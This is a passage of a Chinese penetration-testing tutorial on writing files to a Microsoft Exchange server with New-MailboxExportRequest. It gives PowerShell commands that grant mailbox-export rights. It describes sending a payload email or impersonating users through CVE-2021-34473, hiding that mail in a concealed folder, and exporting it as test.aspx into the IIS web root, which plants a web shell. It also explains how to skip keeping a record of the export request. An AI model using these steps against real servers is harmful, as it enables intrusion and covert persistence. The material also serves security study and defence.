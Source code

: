 ## 0x03 文件写入的方法
---

### 1.通过New-MailboxExportRequest写入文件

New-MailboxExportRequest用于导出邮件，相关用法可以参考之前的文章[《渗透基础——从Exchange服务器上搜索和导出邮件》](https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E5%9F%BA%E7%A1%80-%E4%BB%8EExchange%E6%9C%8D%E5%8A%A1%E5%99%A8%E4%B8%8A%E6%90%9C%E7%B4%A2%E5%92%8C%E5%AF%BC%E5%87%BA%E9%82%AE%E4%BB%B6)

在写入文件时，需要注意以下问题：

#### (1)用户需要添加到角色组"Mailbox Import Export"中

添加用户到角色组"Mailbox Import Export"的命令示例：

```
New-ManagementRoleAssignment –Role "Mailbox Import Export" –User Administrator
```

移除用户的命令示例：

```
Remove-ManagementRoleAssignment -Identity "Mailbox Import Export-Administrator" -Confirm:$false
```

查看角色组"Mailbox Import Export"中用户的命令示例：

```
Get-ManagementRoleAssignment –Role "Mailbox Import Export"|fl user
```

#### (2)通过邮件传递Payload

这里有以下两种方法：

1.从外部邮箱向目标邮箱发送带有Payload的邮件
2.利用CVE-2021-34473模拟任意邮箱用户，将带有Payload的邮件保存至指定文件夹

对于方法2，为了提高隐蔽性，在保存带有Payload的邮件时可以先创建隐藏文件夹再进行保存，详情可参考之前的文章[《渗透基础——Exchange用户邮箱中的隐藏文件夹》](https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E5%9F%BA%E7%A1%80-Exchange%E7%94%A8%E6%88%B7%E9%82%AE%E7%AE%B1%E4%B8%AD%E7%9A%84%E9%9A%90%E8%97%8F%E6%96%87%E4%BB%B6%E5%A4%B9)

#### (3)写入文件

为了能够精确的写入Payload，避免意外错误，在写入邮件时需要加入限定条件，只导出带有Payload的邮件

导出邮件的命令示例：

```
New-MailboxexportRequest -mailbox "test1" -ContentFilter {(body -like "payload Flag")} -FilePath ("\\127.0.0.1\c$\inetpub\wwwroot\aspnet_client\test.aspx")
```

#### (4)清除导出请求

在执行命令New-MailboxexportRequest进行导出时，会自动保存导出请求的记录，默认为30天

如果不想保存导出请求，可以加上参数`-CompletedRequestAgeLimit 0`
